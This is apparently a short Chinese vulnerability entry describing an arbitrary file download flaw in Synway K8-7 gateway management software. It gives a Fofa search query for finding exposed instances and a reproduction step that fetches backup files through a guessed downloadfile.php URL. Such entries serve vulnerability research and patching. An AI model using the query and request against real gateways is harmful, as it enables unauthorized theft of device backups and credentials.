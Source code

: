# K8-7网关管理软件存在任意文件下载漏洞

<u></u>





### 漏洞描述：网关管理软件存在任意文件下载漏洞



### Fofa语句：app="Synway-网关管理软件"



### 漏洞复现：

```
http://127.0.0.1/6-6-1downloadfile.php可下载备份文件
6-6-1downloadfile.php文件名不固定，需要自己尝试
```